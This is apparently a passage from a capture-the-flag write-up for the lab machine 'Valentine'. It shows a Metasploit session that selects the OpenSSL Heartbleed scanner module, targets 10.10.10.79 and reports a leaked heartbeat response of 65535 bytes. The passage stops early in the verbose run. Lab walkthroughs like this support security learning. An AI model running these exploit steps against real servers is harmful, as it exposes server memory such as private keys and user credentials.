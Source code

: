 ```shell
┌──(xavier㉿kali)-[~]
└─$ msfconsole                                                                              
msf6 &gt; search heartbleed

Matching Modules
================

   #  Name                                              Disclosure Date  Rank    Check  Description
   -  ----                                              ---------------  ----    -----  -----------
   0  auxiliary/server/openssl_heartbeat_client_memory  2014-04-07       normal  No     OpenSSL Heartbeat (Heartbleed) Client Memory Exposure
   1  auxiliary/scanner/ssl/openssl_heartbleed          2014-04-07       normal  Yes    OpenSSL Heartbeat (Heartbleed) Information Leak


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/ssl/openssl_heartbleed

msf6 &gt; use auxiliary/scanner/ssl/openssl_heartbleed 
msf6 auxiliary(scanner/ssl/openssl_heartbleed) &gt; set RHOSTS 10.10.10.79
RHOSTS =&gt; 10.10.10.79
msf6 auxiliary(scanner/ssl/openssl_heartbleed) &gt; run

[&#43;] 10.10.10.79:443       - Heartbeat response with leak, 65535 bytes
[*] 10.10.10.79:443       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssl/openssl_heartbleed) &gt; set VERBOSE True
VERBOSE =&gt; true
msf6 auxiliary(scanner/ssl/openssl_heartbleed) &gt; exploit

[*] 10.10.10.79:443       - Leaking heartbeat response #1
[*] 10.10.10.79:443       - Sending Client Hello...
[*] 10.10.10.79:443       - SSL record #1:

```

![image-20230429155205097](resource/012-Valentine.assets/image-20230429155205097.png)
